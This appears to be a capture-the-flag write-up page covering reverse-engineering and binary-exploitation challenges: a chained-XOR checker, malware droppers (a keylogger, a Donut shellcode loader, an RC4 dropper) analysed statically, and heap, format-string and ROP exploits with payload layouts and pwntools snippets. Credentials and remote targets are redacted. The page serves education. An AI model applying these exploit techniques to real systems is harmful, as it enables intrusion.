state = 0x13; for (i = 0; i < 36; i++) { value = (input[i] ^ 0x4d) ^ i ^ state; if (value != target[i]) return 0; state = input[i]; }Reverse the chained XOR
XOR is reversible, so I iterated over the target bytes with the same state progression and solved input[i] = target[i] ^ i ^ state ^ 0x4d. Updating state with the recovered character yields the next character.
The recovered 36-byte string satisfied the check and was the flag.
python
state = 0x13 flag = "" for i, value in enumerate(target): ch = value ^ i ^ state ^ 0x4d flag += chr(ch) state = ch print(flag)
Result
Unpacking exposed a reversible chained-XOR checker; replaying it backwards recovered the required melody.
Flag
UMCS{t4sik_v4rs1ty_pi4n0_x0r_m3l0dy}Tools used: strings, UPX, Ghidra, Python. What I learned: Packer detection should precede deep static analysis. A validation loop that carries state between bytes can still be inverted when every operation is reversible.
Reverse · 240Video Launcher
Challenge
VideoLauncher.exe is a WinRAR SFX dropper, not a video launcher. Its SFX configuration starts a decoy MP4 and WinSystemUpdate.exe, a PyInstaller payload containing keylog.pyc.
First look / analysis
The SFX setup entries establish which extracted file is the real payload. I followed that chain offline: unpack the SFX, extract the PyInstaller application, and inspect the recovered keylogger configuration rather than executing it.
Identify the SFX dropper
The challenge page warns that the file should be analysed in a virtual machine. Static inspection showed the SFX configuration runs chilllll.mp4 as a decoy and WinSystemUpdate.exe as the actual payload.
text
Setup=chilllll.mp4 Setup=WinSystemUpdate.exe TempMode Silent=1 Overwrite=1
The challenge page identifies the suspicious launcher and calls for isolated analysis. Extract the nested PyInstaller payload
I extracted the WinRAR SFX archive, then used pyinstxtractor on WinSystemUpdate.exe. Searching the extracted contents found keylog.pyc, confirming the Python malware stage.
bash
7z x VideoLauncher.exe -osfx_out cd sfx_out python3 pyinstxtractor.py WinSystemUpdate.exe find WinSystemUpdate.exe_extracted -iname '*keylog*'Recover the flag safely
The extracted configuration used Fernet and contained Telegram delivery details. Those details included a real token and personal chat identifiers, so they are not reproduced in the page or download.
The team write-up's recovery workflow forwards the attacker-chat history in an authorised CTF setting and searches each response for the UMCS format. The sanitised downloadable script preserves that logic but replaces credentials with placeholders.
Result
The nested executable was identified as a Telegram-delivered keylogger. The team’s recovered message history contained the flag.
Flag
UMCS{sFx_KeY1o0Gg3R_T3l3gRam_B0t}Tools used: 7-Zip, pyinstxtractor, static PyInstaller analysis, Python. What I learned: SFX launchers can conceal a payload behind a benign decoy. Malware configuration and message-delivery credentials are sensitive even in a CTF artefact and must be redacted from a public walkthrough.
Reverse · 50Donut Calculator
Challenge
calculator.exe contains a Donut shellcode instance embedded in its .data section. The embedded instance uses Chaskey CTR, then contains a second PE whose data holds two XOR-protected flag components.
First look / analysis
The E8 BD 1E 02 00 pattern is a call followed by a 0x21ebd-byte Donut instance. That layout, rather than dynamic execution, gave a controlled static route to the encrypted payload and its keys.
Identify the Donut instance
I inspected .data and found the call opcode E8 followed by the instance length 0x21ebd. The bytes immediately after the call are the encrypted Donut instance, and the remaining bytes are loader code.

The calculator download is the host PE whose .data section contains the Donut instance. Decrypt and carve the embedded PE
The instance provides a Chaskey CTR key and counter. I used them to decrypt the encrypted portion, then searched the plaintext for an MZ header and carved the embedded PE beginning at decrypted_instance + 0x1288.
This avoids executing either stage and preserves a reproducible static workflow.
text
key = 73df88ba8ce5b69ff9f323069cb98bea ctr = fe3417202e0d886883d730b5edcea2daRecover and join both flag components
The embedded PE’s nice() routine exposes nPcSeCreT and nPcF1aG. XORing the data with the first key reveals an encoded PowerShell command whose decoded text contains the first flag component; the second key reveals the suffix.
Joining those two strings produces the final flag.
python
key1 = b'nPcSeCreT' key2 = b'nPcF1aG' # XOR with key1 to recover the PowerShell command, then with key2 for the suffix
Result
Static decryption of the Donut instance exposed the embedded PE and its two XOR-protected flag components.
Flag
UMCS{Ap1_HaSH1n5_Pr0c3ss_Ha11owInG_D0nuT_sHellcode}Tools used: PE inspection, Python, Chaskey CTR analysis, XOR analysis. What I learned: A shellcode container can embed several reversible layers. Identifying each boundary — host section, encrypted instance, embedded PE, then data — makes a complex sample tractable.
Reverse · 50HORUS
Challenge
HORUS is a dropper that copies an encrypted .rdata blob, decrypts it with RC4, and writes a fake updater. The decrypted .NET stage has a CliLoader class that validates a hex key before decrypting its own cipher text.
First look / analysis
The outer binary stores the RC4 key plainly as deadbeefcafebabe. Its MD5 exactly matches the expected value in CliLoader, so the same key satisfies the inner key check and is the justified key for the final static decrypt.
Map the outer dropper
Static disassembly showed allocation, a copy from .rdata, RC4 decryption, and writing the result as a fake Startup updater. The source identifies the encrypted range as 0x5bcc00 bytes starting at file offset 0x82d0.

HORUS is presented as real-malware analysis and is handled statically in the write-up. Validate the inner key
In YouAreAnIdiot-UnFlash, CliLoader checks the last six hexadecimal characters of the MD5 of its supplied key. The MD5 of bytes.fromhex('deadbeefcafebabe') matches the recorded expected MD5, linking the two layers.
python
key = bytes.fromhex('deadbeefcafebabe') assert hashlib.md5(key).hexdigest() == 'c1a708f3e14e36e388ec2f75d04ceff2'Decrypt cipherHex with RC4
I used the same RC4 routine on CliLoader's cipherHex value. The sanitised full helper is provided as a download and prints the recovered flag without executing the dropper.
Result
The outer RC4 key passed the inner MD5 check and decrypted the CliLoader cipher text to the flag.
Flag
UMCS{h3110_3v3ry-ny4n,_h0w_r_u_f1n3_7h4nk y0u,_0m4ig4d}Tools used: Static disassembly, .NET inspection, Python, hashlib, RC4. What I learned: Keys and integrity checks reused across stages can connect otherwise separate layers of a dropper. Static extraction avoids running malware while still allowing cryptographic validation.
Binary
Binary · 70Cyber BlindBox
Challenge
blindbox is a stripped 64-bit ELF menu challenge. Its shelf boxes carry a print_desc function pointer, and review() writes into a freed object, creating a UAF/double-free route to test control of that pointer.
First look / analysis
I used objdump around system@plt and the print path to locate secret_grant and the box function-pointer layout. The review write begins at box+8 on the uploaded binary, an important detail that changes whether the intended ret2win overwrite reaches box+0.
Recon the stripped ELF and struct layout
I confirmed the ELF properties, then searched the disassembly around system@plt and the shelf-print call. The print routine calls box->print_desc(box), so a controllable pointer at box+0 would control execution.
bash
file blindbox objdump -d blindbox | grep -B 5 'system@plt' objdump -d -M intel blindbox | grep -A20 '4016f6'
The challenge supplies the stripped blindbox binary and a remote instance. Exercise the UAF and double free
I drew a box in slot 0, discarded it without clearing shelf[0], then reviewed the dangling object to corrupt its tcache key. A second discard passes the tcache double-free check and two subsequent draws alias the same chunk.
python
draw(io) discard(io, 0) review(io, 0, b'A' * 39) discard(io, 0) draw(io) draw(io)Test the function-pointer overwrite
I attempted the ret2win overwrite with secret_grant at the start of the reviewed chunk, then displayed the shelf. The captured run prints secret_grant and print_desc addresses and returns the flag.
The source also notes a version-specific caveat: on the uploaded binary review begins at box+8, so a direct write does not change print_desc at box+0. That observation is retained because it explains the exploit discrepancy.

The solver run displays the relevant function addresses and the returned flag; the original local prompt was cropped out.
Result
The UAF/double-free analysis located the function-pointer target and the captured authorised run returned the flag, while documenting the uploaded-binary offset caveat.
Flag
UMCS{417511c1-5a9b-418b-b8d5-9a009e41b050}Tools used: file, objdump, Python, pwntools. What I learned: Heap exploits depend on exact object offsets, not just a familiar bug class. A proof of a double free is not automatically a proof that the chosen overwrite reaches the intended field.
Binary · 90Black Flash
Challenge
Black Flash combines a format-string read with a later stack-buffer overflow. PIE and a stack canary are enabled, so the first primitive leaks the values needed to preserve the canary and calculate win().
First look / analysis
A %p sweep identified the stack canary at offset 21 and a return address into main at offset 23. The disassembly places the instruction after call vuln at 0x1548, allowing the PIE base and win address to be derived.
Map the two vulnerabilities
The challenge page frames the task as synchronising a shifting target. Disassembly showed printf receives the first 0x70-byte input directly, while a later fgets reads 0x100 bytes into a 0x80-byte buffer.

The challenge page introduces the PIE- and canary-protected target. Leak the canary and PIE address
I sent %p. repeatedly and parsed the returned stack words. Offset 21 gives the canary; offset 23 is main's return address, so pie_base = leaked_address - 0x1548 and win = pie_base + 0x1261.
text
%p. # repeated 25 times PIE base = leaked_main_return - 0x1548 win = PIE base + 0x1261Overflow while preserving the canary
The final payload uses 0x78 bytes of padding, the leaked eight-byte canary, eight junk bytes for saved RBP, and the calculated win address for RIP. The full team script is available with its remote target replaced by a placeholder.
Result
The format string disclosed the canary and PIE base; the second read used those values to redirect execution to win().
Flag
UMCS{wh7_bl4ck_fl45h_15_120_p3rc3nt?}Tools used: objdump, Python, pwntools. What I learned: Format-string and overflow primitives compose: one can make a mitigation-aware payload possible for the other. The exact leak indices and post-call offset are the critical reproducibility details.
Binary · 120Spinning Cat
Challenge
Spinning Cat has PIE enabled and calls a local song function pointer after printing user input. The intended path is a format-string leak followed by a partial overwrite of song from sing_oiia() to win().
First look / analysis
The hint about pie points to a runtime address leak. %7$p leaks sing_oiia and %42$p leaks a nearby stack address; together they provide the PIE base and the address of the local function-pointer slot.
Identify the indirect call
The program stores void (*song)() = sing_oiia and calls song() after printf. Redirecting that pointer to win() avoids needing a return-address overwrite.

The challenge provides the PIE binary and its matching libc and loader. Derive PIE and function-pointer addresses
I leaked sing_oiia with %7$p and the stack reference with %42$p. The source gives pie = sing - 0x12ee, win = pie + 0x1251, and fp_slot = leak42 - 0x138.
text
%7$p.%42$p pie = leaked_sing_oiia - 0x12ee win = pie + 0x1251 fp_slot = leak42 - 0x138Partially overwrite song with %hn
Because sing_oiia and win are close inside the same PIE mapping, only the low two bytes change: 0x12ee to 0x1251. I built a %hn payload that writes win & 0xffff to fp_slot; when printf returns, song() calls win().
python
payload = build_hn_payload(fp_slot, win & 0xffff, argpos=16) io.send(payload)
Result
Runtime leaks located both PIE and the local pointer. A two-byte format-string write redirected song() to win() and printed the flag.
Flag
UMCS{0I1A_o11a_O11A_0i1A_OIIA_0114}Tools used: Python, format-string analysis, pwntools-style socket handling. What I learned: A partial pointer overwrite can be enough when two functions share a PIE base. Stack leaks are useful not only for return addresses but also for locating adjacent local variables.
Binary · 440RetinaScan
Challenge
RetinaScan is a GLIBC 2.35 heap-menu target with a use-after-free and seccomp. The solve uses tcache poisoning to leak libc, the safe-linking key, and environ, then writes an open-read-write ROP chain to main's saved RIP.
First look / analysis
A shell is blocked by seccomp, so the objective is ORW. The remote exploit initially appeared broken because edit() performed a short read; adding a ROP_OK! write marker proved RIP control before the failing open call.
Plan leaks around the heap protections
I used a 0x500 allocation and free to leak main_arena from the unsorted bin, then freed a tcache-sized chunk to recover its safe-linking key. Tcache poisoning then allocates over libc.environ to leak a stack address.

The challenge identifies seccomp and GLIBC 2.35 as central constraints. Prove saved-RIP control with a marker
The source found the remote saved-RIP offset at 0x120. I poisoned a 0x400 tcache entry onto the stack, wrote the ROP chain, and enabled the sensor.
Before attempting open(), the chain writes ROP_OK! to stdout. The captured execution shows the libc and environ leaks followed by that marker, proving the stack overwrite and RIP control worked.

The ROP_OK marker confirms that the staged chain reaches controlled execution before file access. Fix the remote short read with a staged path
The first ROP layout placed the pathname late in the initial edit payload. Remote edit() truncated that tail, so open() received garbage even though ROP_OK! printed.
I changed the chain to call read(0, path_buf, 0x80) after the marker, then issue raw SYS_open, move the returned file descriptor with xchg edi, eax; ret, and read/write the file. This avoids assuming fd 3.
text
write(1, "ROP_OK!\n", 8) read(0, path_buf, 0x80) open(path_buf, O_RDONLY, 0) xchg edi, eax read(fd, out_buf, 0x200) write(1, out_buf, 0x200)Use the filesystem delta and retrieve the flag
I first requested /proc/self/environ through the staged read and learned the process working directory. That showed /flag.txt was wrong; the final retry sends the relative path flag.txt.
The final captured run shows the marker, the staged path, and the recovered flag. Local terminal prompts were removed from the published image.

The final staged run sends flag.txt after ROP_OK and prints the flag.
Result
Tcache poisoning reached the saved return address, the ROP marker diagnosed a remote short read, and the staged pathname read allowed the ORW chain to return the flag.
Flag
UMCS{408a55bb-f4a5-4d8f-957b-4428cebd5af9}Tools used: Python, pwntools, GLIBC 2.35 heap analysis, ROP, seccomp-aware syscall analysis. What I learned: A visible execution marker isolates control-flow failures from later data-flow failures. In remote exploitation, a staged input can make a ROP chain robust against short reads and unknown file-descriptor allocation.